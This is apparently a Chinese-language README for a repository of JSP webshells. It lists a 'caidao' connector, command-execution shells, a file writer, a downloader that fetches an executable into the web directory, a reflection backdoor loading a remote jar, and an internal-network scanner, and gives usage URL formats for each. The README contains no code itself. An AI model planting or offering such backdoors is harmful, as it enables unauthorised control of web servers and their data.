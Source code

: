 # JSP常用脚本
##

chopper.jsp
菜刀连接脚本

cmd.jsp
无回显执行命令（弹shell）

cmdpass.jsp
回显带密码执行命令

file.jsp
写文件脚本，格式：file.jsp?f=test.jsp&t=test

down.jsp
下载文件到网站目录，格式：down.jsp?u=http://test.com/test.exe


reflect.jsp
反射后门，配合c.jar使用，格式：reflect.jsp?u=http://test.com/c.jar pass=023 (form:yzmm)


c.jar
其实代码和chopper差不多，可自行使用JDGUI查看

netspy.jsp
内网探测脚本2.0（form:jeary-[zone](http://zone.wooyun.org/content/23517)）

==
PS:代码写得匆忙有两个小问题。
1.<%@page import="org.apache.commons.io.FileUtils"%>  这行应该删掉，因为之前写代码有人告诉我用这个操作读写文件比较方便。

2.412行改为自己脚本的所在位置。
